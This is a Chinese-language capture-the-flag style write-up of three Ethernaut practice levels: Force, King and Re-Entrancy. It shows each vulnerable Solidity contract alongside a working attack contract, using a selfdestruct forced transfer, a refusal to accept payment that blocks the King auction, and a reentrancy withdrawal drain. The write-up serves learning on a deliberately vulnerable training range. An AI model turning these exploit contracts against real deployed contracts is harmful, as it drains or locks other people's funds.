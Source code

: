 # Ethernaut靶场刷题记录(7-12)
    author: 甘赞栩

## 07 Force
这道题是为了考查我们对自毁函数`selfdestruct`的认识
先看代码：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
这就是一个空合约，题目想要我们给这个合约转一笔账，可我们知道，一个没有任何函数的合约是没有办法接收转账的。者就用到了自毁函数`selfdestruct`
>自毁函数selfdestruct：
    当我们调用这个函数时，它会使合约无效化并删除该地址的字节码，然后它会把合约里剩余的资金发送给参数指定的地址，比较特殊的是这笔资金的发送将无视合约的fallback函数。（因为之前提到，如果合约收到一笔没有任何函数可以处理的资金时，就会调用fallback函数，而selfdestruct函数无视这一点，也就是资金会优先由selfdestruct函数处理）

我们只需要自己写一个新合约，往里面存一点测试币，然后调用自毁函数`selfdestruct`将参数设置为此合约的地址，我们合约里的token
就会转到此合约当中。<br/>
攻击合约如下：
```
pragma solidity ^0.6.0;


contract Attck{


receive() payable external{

}
function dosome() public payable{
    selfdestruct(0x0F8AaD423dc5aE12382CEc67412dADb6e2b0eFF3);//Force的地址
}
}
```


* 解题步骤
1. 直接使用metamask给我自己的攻击合约转账
![](../images/ethernaut/e07/01.png)
2. 执行攻击合约的dosome函数
3. 通关

# King
这是一个Dos攻击（拒绝服务）型的漏洞
先看代码：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```
这是一个类似于拍卖的合约
题目的意思其实就是说让我们在成功报价后，想办法让别人无法对你的报价再进行竞拍。因为刚好前两天才系统性的了解了拒绝服务DDOS攻击，这道题就变得很容易。
>因为这个竞拍合约需要向上一个竞拍者转账后才能完成竞拍成功（完成king的交换），那我们不让他转账成功不就可以永远不被替换了嘛，需要我们创建一个攻击合约，而此合约需要fallable和receive函数不能设置为payable，
```
pragma solidity ^0.6.0;

contract AttackKing {

    constructor(address payable _victim) public payable {
        _victim.call.gas(1000000).value(msg.value)("");
    }

```
在此攻击合约中我们不写任何receive fallback函数，那么默认就是没有payable修饰的，自然也就接收不了转账。当然，也可以在receive中用revert()语句去终止交易。
* 解题步骤
1. 先用`web3.eth.getStorageAt('0x2814Cd87DdF364D7A5Ef9BAC507fdad131956647',1)`查看一下当前竞拍值是多少
![](../images/ethernaut/e08/01.png)
在这里可以看到是0.001ether，那么我们就需要提供大于0.001ether的报价才能成为king
2. 在创建攻击合约时，同时存0.0011个ether进去(如果你测试币多的话直接传1ether就行)
![](../images/ethernaut/e08/02.jpg)
3. 通关

## Re-Entrancy
顾名思义，这是一个重入漏洞
先看代码：
```
pragma solidity ^0.6.0;

import '@openzeppelin/contracts-ethereum-package/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
我们可以注意到withdraw函数里面很明显是存在重入漏洞的，（在更改全局变量之前进行了外部调用）于是我们利用这个漏洞写出攻击合约：
```
pragma solidity ^0.6.0;

contract attack {

    address payable target;
    uint amount = 1000000000000000 wei;

    constructor(address payable _addr) public payable {
        target=_addr;
    }

    function step1() public payable{
        target.call{value: amount}(abi.encodeWithSignature("donate(address)",address(this)));
    }

    function setp2() public payable {
        target.call(abi.encodeWithSignature("withdraw(uint256)",amount));
    }


    fallback () external payable{
        target.call(abi.encodeWithSignature("withdraw(uint256)",amount));
    }

}
```
注意第一步第二步最好分开写，否则可能造成交易超过gas limit的上限导致执行失败
* 解题步骤
按照step1，2执行即可
![](../images/ethernaut/e10/01.png)
可以看到原合约已经没有token了。而我们的账户有了很多，攻击成功。
![](../images/ethernaut/e10/02.png)